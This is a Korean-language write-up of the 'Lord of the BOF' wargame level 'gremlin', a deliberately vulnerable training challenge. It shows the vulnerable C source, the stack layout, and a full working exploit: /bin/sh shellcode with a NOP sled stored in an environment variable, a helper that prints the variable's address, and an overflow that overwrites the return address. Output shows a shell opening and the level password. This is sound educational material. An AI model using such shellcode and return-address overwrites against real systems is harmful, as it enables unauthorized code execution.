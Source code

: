 ============================================================================================================
[lob] gate
============================================================================================================


.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :환경 변수 쉘코드 등록;

    :환경 변수 주소값 확인;

    :RET 주소를 환경 변수 주소로 변경하여 공격 진행;
    
    stop

    @enduml

|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
    */

    int main(int argc, char *argv[])
    {
        char buffer[256];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

|

Memory Structure
============================================================================================================

스택에 다음과 같이 들어가게 됩니다.

.. code-block:: console

	===============
	LOW     
	---------------
	Buffer  (256byte) <- argv[1]
	SFP     (4byte)
	RET     (4byte)
	---------------
	HIGH    
	===============

|

Segmentation fault
============================================================================================================

버퍼오버플로우가 일어나는 지점을 확인합니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ bash2
    $ ./gremlin `python -c "print 'a'*256"`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    $ ./gremlin `python -c "print 'a'*260"`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    Segmentation fault

|

exploit
============================================================================================================

환경 변수 쉘코드 등록
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`


|

환경 변수 주소값 확인
------------------------------------------------------------------------------------------------------------

.. code-block:: c

    #include <stdio.h>
    int main(int argc, char **argv)
    {
	    char *addr;
	    addr = getenv(argv[1]);
	    printf("address %p\n", addr);
	    return 0;
    }

.. code-block:: console

    $ gcc -o get get.c
    get.c: In function `main':
    get.c:5: warning: assignment makes pointer from integer without a cast

    $ ./get shellcode
    address 0xbffffc4c

|

RET 주소를 환경 변수 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    $ ./gremlin `python -c 'print "\x90"*260+"\x4c\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
    bash$ whoami
    gremlin
    bash$ my-pass
    euid = 501
    hello bof world


